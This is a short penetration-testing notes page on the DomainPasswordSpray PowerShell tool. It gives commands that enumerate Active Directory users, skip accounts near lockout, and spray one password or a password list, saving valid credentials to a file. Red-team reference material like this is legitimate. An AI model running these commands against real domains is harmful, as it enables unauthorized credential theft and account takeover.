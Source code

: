 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - password-cracking
  - password-spraying
  - bring-your-own-land
  - windows
---
```

# Scripts

## DomainPasswordSpray

Perform automated user enumeration then password spray process when executing from the current domain.

```
PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt
```

Specifying a password list then check for [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xA - Internal Reconnaissance/Users/Manual/Living off the Land|account lockout observation window]].

```
PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt
```

You can output the user accounts without lockouts.

```
PS C:\> Get-DomainUserList -Domain <DOMAIN> -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ASCII users.lst

PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt
```

---
## References

### Source Repositories

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

### Pwnage Base

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)